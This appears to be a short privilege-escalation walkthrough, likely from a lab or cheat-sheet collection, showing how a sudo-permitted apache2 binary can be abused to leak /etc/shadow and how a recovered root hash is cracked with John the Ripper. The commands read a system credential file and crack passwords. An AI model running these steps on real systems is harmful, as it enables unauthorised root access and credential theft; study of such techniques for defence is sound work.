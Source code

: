#### Detection
**Victim's Machine**
```
sudo -l
```

`/usr/sbin/apache2` is listed

#### Exploitation
**Victim's Machine**
```
sudo apache2 -f /etc/shadow
```

- `-f`: specifies a configuration file.

The attacker is tricking the system into using the `/etc/shadow` file as a configuration file. If the command succeeds, it may display the content of the shadow file.

**Attacker's Machine**
```
echo 'ROOT HASH' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```

******